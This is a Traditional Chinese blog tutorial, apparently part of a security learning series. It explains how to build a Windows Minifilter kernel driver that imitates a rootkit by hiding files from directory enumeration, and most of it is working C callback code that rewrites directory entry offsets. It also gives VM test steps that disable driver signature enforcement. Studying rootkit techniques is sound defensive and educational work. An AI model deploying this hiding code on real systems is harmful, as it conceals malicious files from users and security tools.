

# 【第 28 話】Minifilter 隱藏檔案

## 文章大綱
在[【第 27 話】Minifilter 保護檔案](/asset/第%2027%20話)說明了 Minifilter 的概念，然後實作保護檔案的功能。在[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中提到 GhostEmperor 會利用有漏洞的驅動程式隱藏檔案，因此這篇要模仿 Kernel Rootkit，使用 Minifilter 從 Kernel 隱藏檔案。


## 隱藏檔案
用 Minifilter 隱藏檔案的概念很簡單。當一般程式在列舉檔案時，通常使用應用層的 Windows API，再由 Kernel 發送 `IRP_MJ_DIRECTORY_CONTROL` 請求。惡意驅動程式可以透過註冊 Minifilter Callback 攔截 IRP，讓檔案列舉的反回結果跳過惡意程式要隱藏的檔案，就可以成功隱藏了。



具體來說要跳過檔案列舉隱藏特定檔案，需要先了解 [PFILE_ID_BOTH_DIR_INFORMATION](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_file_id_both_dir_information) 結構。在 Minifilter Callback 中我們會拿到這個結構的資訊，其中的 `NextEntryOffset` 就是指目前的 Entry 所代表的檔案到下一個 Entry 隔了多遠。

```c
typedef struct _FILE_ID_BOTH_DIR_INFORMATION {
  ULONG         NextEntryOffset;
  ULONG         FileIndex;
  LARGE_INTEGER CreationTime;
  LARGE_INTEGER LastAccessTime;
  LARGE_INTEGER LastWriteTime;
  LARGE_INTEGER ChangeTime;
  LARGE_INTEGER EndOfFile;
  LARGE_INTEGER AllocationSize;
  ULONG         FileAttributes;
  ULONG         FileNameLength;
  ULONG         EaSize;
  CCHAR         ShortNameLength;
  WCHAR         ShortName[12];
  LARGE_INTEGER FileId;
  WCHAR         FileName[1];
} FILE_ID_BOTH_DIR_INFORMATION, *PFILE_ID_BOTH_DIR_INFORMATION;
```

所以如果要隱藏特定的檔案，只要竄改目前的 Entry 的上一個 Entry 的 `NextEntryOffset`，加大 `NextEntryOffset` 的值，理論上目前的 Entry 就可以在列舉時被跳過。但是要隱藏的檔案所在的 Entry 會有以下四種情況，在下一步講解程式時會說明要做的不同處理。
- 是第一個 Entry 也是最後一個 Entry
- 是第一個 Entry 但不是最後一個 Entry
- 不是第一個 Entry 但是最後一個 Entry
- 不是第一個 Entry 也不是最後一個 Entry


## 寫程式
程式主要參考 [JKornev/hidden](https://github.com/JKornev/hidden)，我簡化與改寫它的實作並加了一些註解，完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideFile)。

在[【第 27 話】Minifilter 保護檔案](/asset/第%2027%20話)我們是設 `IRP_MJ_CREATE` 的 Callback 禁止訪問檔案，這篇則是設 `IRP_MJ_DIRECTORY_CONTROL` 的 Callback。在 Callback 中取得這個 IRP 送來的資訊後，根據 `FileInformationClass` 做對應的處理，為了簡化這個 PoC 我們只看 `FileIdBothDirectoryInformation`，要做得更完整的話還可以實作不同的 `FileInformationClass`。

```c
FLT_POSTOP_CALLBACK_STATUS FltDirCtrlPostOperation(PFLT_CALLBACK_DATA Data, PCFLT_RELATED_OBJECTS FltObjects,
                                                   PVOID CompletionContext, FLT_POST_OPERATION_FLAGS Flags)
{
    UNREFERENCED_PARAMETER(FltObjects);
    UNREFERENCED_PARAMETER(CompletionContext);
    UNREFERENCED_PARAMETER(Flags);

    PFLT_PARAMETERS params = &Data->Iopb->Parameters;
    PFLT_FILE_NAME_INFORMATION fltName;

    if (!NT_SUCCESS(Data->IoStatus.Status))
        return FLT_POSTOP_FINISHED_PROCESSING;

    // 取得 Minifilter Callback 的相關資訊
    NTSTATUS status = FltGetFileNameInformation(Data, FLT_FILE_NAME_NORMALIZED, &fltName);
    if (!NT_SUCCESS(status))
    {
        return FLT_POSTOP_FINISHED_PROCESSING;
    }

    // 根據 FileInformationClass 做對應的處理，這個 PoC 只需要看 FileIdBothDirectoryInformation
    switch (params->DirectoryControl.QueryDirectory.FileInformationClass)
    {
        case FileIdBothDirectoryInformation:
            status = CleanFileIdBothDirectoryInformation(
                (PFILE_ID_BOTH_DIR_INFORMATION)params->DirectoryControl.QueryDirectory.DirectoryBuffer, fltName);
            break;
        default:
            status = STATUS_SUCCESS;
    }

    Data->IoStatus.Status = status;
    return FLT_POSTOP_FINISHED_PROCESSING;
}
```

在處理 `FileIdBothDirectoryInformation` 的函數中，我們要隱藏特定的檔案，所以先比對檔名中有沒有包含 `ithome`，有的話再判斷這個檔案所在的 Entry 是不是第一個或最後一個，根據這點做不同處理。
- 是第一個 Entry 也是最後一個 Entry：直接在 Minifilter Callback 回傳 `STATUS_NO_MORE_ENTRIES`
- 是第一個 Entry 但不是最後一個 Entry：把後面所有的 Entry 往前挪，把要隱藏的 Entry 蓋掉
- 不是第一個 Entry 但是最後一個 Entry：把倒數第二個 Entry 的 `NextEntryOffset` 改成 0
- 不是第一個 Entry 也不是最後一個 Entry：把上一個 Entry 的 `NextEntryOffset` 加上目前 Entry 的 `NextEntryOffset`

```c
NTSTATUS CleanFileIdBothDirectoryInformation(PFILE_ID_BOTH_DIR_INFORMATION info, PFLT_FILE_NAME_INFORMATION fltName)
{
    UNREFERENCED_PARAMETER(fltName);
    PFILE_ID_BOTH_DIR_INFORMATION prevInfo = NULL;
    NTSTATUS status = STATUS_SUCCESS;

    while (TRUE)
    {
        WCHAR buffer[0x101] = {0};
        ULONG length = info->FileNameLength > 0x100 ? 0x100 : info->FileNameLength;
        wcsncpy(buffer, info->FileName, length);

        // 確認是檔案類型，然後比對檔案路徑中有沒有 ithome
        if (!(info->FileAttributes & FILE_ATTRIBUTE_DIRECTORY) && wcsstr(buffer, L"ithome"))
        {
            // 確認要隱藏的 Entry 是不是第一個檔案
            if (prevInfo != NULL)
            {
                // 確認要隱藏的 Entry 是不是最後一個檔案
                if (info->NextEntryOffset != 0)
                {
                    // 如果要隱藏的 Entry 不是第一也不是最後一個檔案，
                    // 則把上一個 Entry 的 Offset 加上要隱藏 Entry 的 Offset 來跳過要隱藏的 Entry
                    prevInfo->NextEntryOffset += info->NextEntryOffset;
                }
                else
                {
                    // 如果要隱藏的 Entry 不是第一個檔案，但是最後一個檔案，
                    // 則把上一個 Entry 的 Offset 改成 0 略過要隱藏的 Entry
                    prevInfo->NextEntryOffset = 0;
                    status = STATUS_SUCCESS;
                    break;
                }

                RtlFillMemory(info, sizeof(FILE_ID_BOTH_DIR_INFORMATION), 0);
            }
            else
            {
                // 確認要隱藏的 Entry 是不是最後一個檔案
                if (info->NextEntryOffset != 0)
                {
                    // 如果要隱藏的 Entry 是第一個檔案，但不是最後一個檔案，
                    // 就把之後的 Entry 所有的資料全都往前複製，把要隱藏的 Entry 蓋掉
                    PFILE_ID_BOTH_DIR_INFORMATION nextInfo =
                        (PFILE_ID_BOTH_DIR_INFORMATION)((PUCHAR)info + info->NextEntryOffset);
                    UINT32 moveLength = 0;
                    while (nextInfo->NextEntryOffset != 0)
                    {
                        moveLength += nextInfo->NextEntryOffset;
                        nextInfo = (PFILE_ID_BOTH_DIR_INFORMATION)((PUCHAR)nextInfo + nextInfo->NextEntryOffset);
                    }

                    moveLength += FIELD_OFFSET(FILE_ID_BOTH_DIR_INFORMATION, FileName) + nextInfo->FileNameLength;
                    RtlMoveMemory(info, (PUCHAR)info + info->NextEntryOffset, moveLength);
                    continue;
                }
                else
                {
                    // 如果要隱藏的 Entry 是第一也是最後一個檔案，就直接當成沒有任何檔案
                    status = STATUS_NO_MORE_ENTRIES;
                    break;
                }
            }
        }

        // 確認還有沒有下一個 Entry，有的話就繼續檢查
        if (info->NextEntryOffset)
        {
            prevInfo = info;
            info = (PFILE_ID_BOTH_DIR_INFORMATION)((PCHAR)info + info->NextEntryOffset);
        }
        else
        {
            break;
        }
    }

    return status;
}
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 建立一個包含 `ithome` 字串的檔案
2. 安裝 [HideFile.inf](https://github.com/zeze-zeze/2023iThome/blob/master/HideFile/bin/HideFile.inf)
3. 載入 [HideFile.sys](https://github.com/zeze-zeze/2023iThome/blob/master/HideFile/bin/HideFile.sys)
4. 這時嘗試按 F5 重新整理 Explorer，會發現檔案被隱藏了


## 參考資料
- [JKornev/hidden](https://github.com/JKornev/hidden)
- [Windows File System Minifilter Driver Development Tutorial](https://www.apriorit.com/dev-blog/675-driver-windows-minifilter-driver-development-tutorial)
- [microsoft/Windows-driver-samples - filesys/miniFilter](https://github.com/microsoft/Windows-driver-samples/tree/main/filesys/miniFilter)
- [How to Develop a Windows File System Minifilter Driver: Complete Tutorial](https://www.apriorit.com/dev-blog/675-driver-windows-minifilter-driver-development-tutorial)